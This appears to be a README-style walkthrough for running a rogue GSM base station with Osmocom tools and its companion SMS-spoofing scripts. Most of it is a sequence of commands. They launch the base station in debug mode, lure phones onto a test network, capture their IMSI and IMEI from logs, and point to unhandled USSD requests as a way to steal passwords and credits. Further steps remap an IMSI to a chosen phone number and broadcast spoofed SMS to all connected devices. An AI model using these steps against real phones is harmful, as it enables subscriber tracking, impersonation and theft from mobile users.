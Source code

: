 Change spoof script2 modification
```
gedit scripts_spoof2/sms_send_source_dest_msg.py
```

Before launching sms_send_source_dest_msg.py, please corret the help, change : 
```
usage: ./sms_broadcast.py extension message
This script sends a message from the specified extension (number) to all devices connected to this base station
```
to
```
usage: ./sms_send_source_dest_msg.py extension_source extension_destination  message
This script sends a message from the specified extension source (number) to extension destination connected to this base station
```


```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
ADDING DEBUG MODE OPTIONS :  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM  
Database at : /var/lib/osmocom/hlr.sqlite3 
```
/usr/local/bin/osmo-nitb --yes-i-really-want-to-run-prehistoric-software -s -C -c /etc/osmocom2/osmo-nitb.cfg -l /var/lib/osmocom/hlr.sqlite3  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM
```
Launching the bts on debug mode
ADDING DEBUG MODE OPTIONS : --debug DRSL:DOML:DLAPDM
```
/usr/local/bin/osmo-bts-trx -s -c /etc/osmocom2/osmo-bts-trx.cfg --debug DRSL:DOML:DLAPDM
```
Have a look on the terminal at the command : /usr/local/bin/osmo-nitb --yes-i-really-want-to-run-prehistoric-software -s -C -c /etc/osmocom2/osmo-nitb.cfg -l /var/lib/osmocom/hlr.sqlite3  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM  


  
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Have a look on log for capturing IMSI and IMEI  

  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
Have a look on the log about USSD: Own number requested  

  
Tape USSD `*100*123#`
Have a look on log of USSB : Unhandled USSD  (possible to steal password and credits)
  

ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 0341220590
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 0341220590
```
bash finding_imsi_extenstion.sh
```
```
python2 sending_sms_spoof_byextension.py
```
Sending for all extensions in osmo-bts
```
```